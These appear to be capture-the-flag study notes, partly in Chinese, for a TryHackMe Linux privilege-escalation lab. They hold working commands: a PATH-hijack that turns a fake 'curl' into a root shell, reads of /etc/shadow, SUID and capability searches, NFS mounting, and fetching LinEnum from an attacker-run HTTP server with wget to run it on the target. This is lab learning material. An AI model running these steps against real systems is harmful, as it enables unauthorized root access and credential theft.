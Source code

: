 			--> cd /tmp
			--> echo /bin/sh > curl
			--> chmod 777 curl
			--> export PATH=/tmp:$PATH
			--> /usr/bin/menu
## Common Linux Privesc
	--> ssh user3@10.10.41.95 | password
### common : 
		=> uname -a : 列印系統信息 
		=> cat file 
			=> /etc/crontab 執行腳本或二進位檔案
			=> /etc/passwd 發現系統上使用者
			=> /etc/shadow
			=> /etc/exports (NFS)
		=> GTFOBins
			=> sudo -l
			=> SUID 	
				=> find / -type f -perm -04000 -ls 2>/dev/null
				--> cap_setuid+ep
			=> Capabilities
				=> getcap -r / 2>/dev/null
		
		=> PATH
			=> find / -writable 2>/dev/null 
			=> export PATH=/tmp:$PATH
		=> NFS
			=> showmount -e
			=> sudo mount -o rw
		=> su 切換 user
			=> su user7

### LinEnum <--簡單的 bash 腳本
		--> https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh
		=> /home/kali/2024_5_CTF/try_hack_me/task/JR/LinEnum.sh
		=> python3 -m http.server 8000
		=> wget 10.11.92.230:8000/2024_5_CTF/try_hack_me/task/JR/LinEnum.sh
		=> chmod +x LinEnum.sh
		=> ./LinEnum.sh
		
		--> uname | hostname | id |
		--> /etc/passwd | sudo | /home (ls -al) | env | Path 
		--> /etc/shells 
		--> Cron jobs: (/etc/cron | /etc/crontab)
		--> ifconfig
		--> Listening TCP/UDP
		--> PS
		--> /etc/init.d/
		--> version (Sudo / MySQL / apache /)
		--> INTERESTING FILES (nc | wget | nmap |gcc | curl)
		--> Can we read/write sensitive files
		--> SUID files
		--> capabilities
		--> NFS
		